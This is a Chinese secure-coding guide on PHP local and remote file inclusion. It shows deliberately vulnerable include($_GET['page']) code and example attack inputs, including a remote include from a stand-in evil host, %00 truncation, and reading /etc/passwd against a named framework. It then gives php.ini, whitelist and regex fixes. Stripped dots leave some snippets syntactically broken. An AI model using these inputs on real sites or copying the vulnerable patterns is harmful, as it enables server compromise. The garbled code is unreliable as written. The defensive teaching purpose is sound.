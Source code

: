 ```yaml
---
layout: post
title: 文件包含漏洞
categories: safety
---
```


# 文件包含【高危】

# 原理概述：

业务系统由于功能实现需要、或者PHP框架本身特性，通常都会通过PHP典型方法包含一些代码文件，如果研发同学编码时，对包含的文件名或文件名部分值没有做好严格校验或过滤，就可能给黑客可趁之机，进而包含黑客想要执行的恶意代码。通常文件包含漏洞分为本地文件包含和远程文件包含。两者区别在于phpini中allow_url_fopen和allow_url_include选项是否开启。

# 危害

直接执行恶意代码，可能导致黑客获取网站控制权甚至是服务器控制权

造成敏感信息泄露，如：程序源代码，服务器上的敏感文件如/etc/passwd等

# BadCase样例

```

主要涉及到的函数有：include() require() include_once() require_once()

BadCase样例1:

/*

$file通过GET方式获取，未经检查就直接包含，如果phpini中allow_url_fopen

或者allow_url_include为on，攻击者就能让程序包含一个远程恶意文件

如：page=http://wwwevilcom/trojantxt，其中trojantxt中有黑客写的恶意代码

如果不开启上述两个选项，也能造成本地包含，攻击者完全可以上传一个带有恶意代码的文件

然后再去包含这个文件

*/



$file=$_GET['page'];

if($file)

{

  include($file);

}
```

BadCase样例2:

```
/*

看似include中限制了文件名，但实际上黑客可以通过提交%00（即0x00）来对文件名进行截断

如:page=hackphp%00

又因为PHP会对不能执行的文件内容原样输出，所以攻击者也能通过这个特性读取服务器上的敏感文件

如：page=/////etc/passwd%00

odp框架中pcheck就出现过上述问题:

http://server/pcheck/indexphp?action=/////etc/passwd%00 可以读取服务器上敏感文件。

*/



$file=$_GET['page'];

if($file)

{

  include($file"controllerphp");

}
```

# 修复建议

如无必要，phpini中设置allow_url_fopen与allow_url_include均为Off，用以防止远程文件包含（防御本地文件包含见第2-5条建议）；

样例如下：

```
; Whether to allow the treatment of URLs (like http:// or ftp://) as files

; http://phpnet/allow-url-fopen

allow_url_fopen = Off



; Whether to allow include/require to open URLs (like http:// or ftp://) as files

; http://phpnet/allow-url-include

allow_url_include = Off
```

在phpini中设置include_path以及openbase_dir的值为可信赖的路径，只允许包含特定路径下的文件，注意open_basedir的配置，windows下多路径使用分号隔开，Linux下多路径使用冒号隔开

样例如下：
```

; UNIX: "/path1:/path2"

include_path = "/var/www/"

;

; Windows: "\path1;\path2"

include_path = "d:/php/include/"



; open_basedir, if set, limits all file operations to the defined directory

; and below  This directive makes most sense if used in a per-directory

; or per-virtualhost web server configuration file

; http://phpnet/open-basedir

open_basedir ="/var/allowPath1/:/var/allowPath2/"
```

如果需要动态包含文件，则要对传入的参数值做检查，严格禁止文件名中出现如/以及%00这样的字符，同时要对最终包含的文件名做白名单限制；

参考样例1(首选方案：白名单控制，通常用于在MVC框架中初始化控制器等功能模块，因为通常情况下controller/model/view类总是事先定义好的)：

```
$file=$_GET['page'];

$allowFileWhiteList=array(file1,file2,file3);  //白名单控制允许包含的文件名

if(!in_array($file,$allowFileWhiteList))

{

  die("Error!");

}

else

{

  include($file"classcontrollerphp");

}
```

参考样例2(对文件名做正则校验，适用于无法用白名单的情况)

```
$file=$_GET['page'];

/*

对文件名做正则检查，通常每个产品线都会有自己的命名规范，且文件名长度也都不会太长

本例中取文件名长度不能超过20个字符，各产品线可根据自己的情况进行调整表达式及文件名长度

*/

$pattern='/^[a-zA-Z]{1,20}$/';

if(!preg_match($pattern,$file))

{

  die("Error!");

}

else

{

  include($file"controllerphp")

}
```

如果应用中需要包含的文件名是可预知的，建议直接在代码里面做硬编码，彻底取消由外部传入参数这条途径

